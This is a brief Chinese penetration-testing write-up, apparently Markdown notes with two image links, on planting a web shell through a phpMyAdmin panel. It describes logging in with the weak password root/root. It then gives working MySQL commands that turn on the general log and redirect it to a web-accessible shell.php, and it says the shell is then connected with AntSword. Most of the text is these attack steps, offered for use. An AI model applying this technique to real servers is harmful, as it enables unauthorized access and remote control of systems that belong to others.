


# 日志shell
目录扫描发现phpadmin,尝试弱口令,root/root,登陆成功
接下来通过日志来写入shell
```
show variables like "%general_log%"//查询日志是否开启
set global general_log="on"//开启日志功能
set global general_log_file="C:\\phpStudy\\WWW\\shell.php";//改变日志路径,使其能够被访问
```
结果:

用蚁剑连接



